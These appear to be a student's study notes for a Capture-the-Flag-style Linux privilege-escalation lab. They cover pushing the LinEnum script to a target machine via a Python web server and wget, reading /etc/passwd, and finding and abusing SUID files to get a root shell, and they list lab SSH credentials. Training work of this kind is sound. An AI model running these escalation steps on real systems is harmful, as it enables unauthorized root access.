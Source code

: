 Common Linux Privesc
####################
:Author: David Boyd
:Date: 2020-06-02
:SSH User: user3
:SSH Password: password

[Task 4] Enumeration
====================

LinEnum
	a bash script that perfoms common commands related to privilege escalation.

	Saves time (allowing more effort to be put toward getting root).

Get LinEnum
-----------

curl -O https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

	- -O, --remote-name

		-O'riginal'-rem'O'te-name.  Writes output to a local file with the same
		name as the original remote name.

Push LinEnum on TM (Target Machine)
-----------------------------------

Steps
~~~~~

1.	Setup Python server on your machine
2.	from TM (target machine), wget your.Machine.IP.addr:port/file.sh
3.	from TM, chmod +x file.sh && run file.sh

Python3
~~~~~~~

http.server    (import http.server)
	this module defines classes for implementing HTTP servers (Web servers).

	-m

Issues
~~~~~~
:Issue: Python2 code is deprecated.
:Tricks: Use the **2to3** utility to convert Python2 prgms to Python3.
:Solution: The *SimpleHTTPServer* module has been merged into the
           *http.server* in Python 3.0

.. code-block:: Python

	python3 -m http.server 8000

	python -m SimpleHTTPServer 8000

The http.server is invoked directly using the *-m* switch of the interpreter
with a port number argument.  **This serves files relative to the currect
directory.**  // Think: -m = "main directory"

Sandbox
~~~~~~~

.. code-block:: Python

	# My machine
	python3 -m http.server 8000

	# TM
	wget my.ip.addr.ess:8000/LinEnum.sh
	chmod +x LinEnum.sh
	./LinEnum.sh


Questions
---------
:Notes: https://regexone.com for grep refresher
:grep: {m} = matching repreated characters

.. code-block:: Bash

	# What is the target's hostname?
	hostname

	# Look at the output of /etc/passwd,
	# how many "user[x]" are there on the system?
	cat /etc/passwd | grep user[0-9] | cut -d ':' -f1

	# How many available shells are there on the system?
	cat -n /etc/shells

	# What critical file has had it permissions changed to allow some users to
	# write to it?
	### > critical files include /etc/, /var/
	### > permissions change would typically include user groups' changes
	ls -l | grep -E "\-[rwx-]{4}w]"

[Task 5] Abusing SUID/SGID Files
================================
:rwx-: read, write, execute, NO permissions
:--s--S--t: SUID w/ execution, SUID w/o exec, sTicky bit
:NOTE: GUID/SGID are used interchangably.

.. image:: ./special-permissions.png

First step in privilege escalation exploitation is to check for files with
SUID/SGID bit set.  This means that the file(s) can be run with the permissions
of the file(s) owner/group.

SUID
----
:SUID: https://linuxhandbook.com/suid-sgid-sticky/
:s: stands for 'Set'
:SUID: SetUID

SUID (Set User ID) binary
	a special type of file permission given to a file (everything in Linux is a
	file!).  Normally in Linux/UNIX when a program runs, it inherit's access
	permissions from the logged in user.  SUID is defined as *giving temporary
	permissions to a user to run a program/file with th epermissions of the
	file owner, rather than that of the user who runs it.* In simple words,
	**users will get owner's permsissions as well as owner UID and GID when
	executing a file/program/command**.

:SUID with execute permissions: -rws------
:SUID without execute permissions: -rwS------
:Change SUID execute permissions: chmod u+[sS] filename

SGID (Set Group ID)
	any user executing the file will have the same permissions as the *group
	owner* of the file.

:SGID with execute permissions: ----rws---
:SGID without execute permissions: ----rwS---
:Change SGID execute permissions: chmod g+[sS] filename
:Example: ls -l /var/local
:Practical Usage: Samba server for sharing files on local netw.

Where is SUID used?
~~~~~~~~~~~~~~~~~~~

	1.	Where root login is required to execute some cmds/prgms/scripts.
	2.	Where you don't want to give credentials of a particular user, but want
	    to run some prgms as the owner.
	3.	Where you don't want to use 'sudo' cmd, but want to give execute
	    permission for a file/script.

SUID/SGID/sTicky bit for a file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: Bash

	###
	### Setup
	###
	# method 1
	chmod u+s file.name (SUID)
	chmod g+s file.name (SGID)
	chmod +t dir.name   (sTicky bit)

	# method 2
	chmod 4nnn file.name    # where nnn is [0-7] respectively.

	###
	### Remove
	###
	# method 1
	chmod u-s file.name
	chmod g-s file.name
	chmod -t dir.name   (sTicky bit)

	# method 2
	chmod 0nnn file.name    # where nnn is [0-7] respectively.
	chmod 0nnn file.name    # SGID is the same as SUID to rm
	chmod 0nnn file.name    # sTicky bit is the same as SUID to rm

	###
	### Find SUID/SGID files
	###
	find / -perm /4000      # SUID
	find / -perm /2000      # SGID
	find / -perm /1000      # sTicky bit
	# [THM] method
	find / -perm -u=s -type f 2>/dev/null

Bonus
~~~~~
:d--------t: sTicky bit
:T/t: sTick bit ONLY, sticky bit +x

Sticky Bit
	only file owner(s) can mv/rm dir/files within a directory.  **Sticky bits
	only works with DIRECTORIES!!!**

Questions
---------

.. code-block:: Bash

	#1 What is the path of the file in user3's directory that stands out to
	# you?
	ls

	# We know that "shell" is a SUID bit file, therefore running it will run
	# the script as a root user!  Lets run it!  We can do this by running:
	# "./shell"
	<no answer needed>

	# Congratulations!  You should now have a shell as rot user, well done!
	<wtf?>

[Task 6] Exploiting Writeable /etc/passwd
=========================================



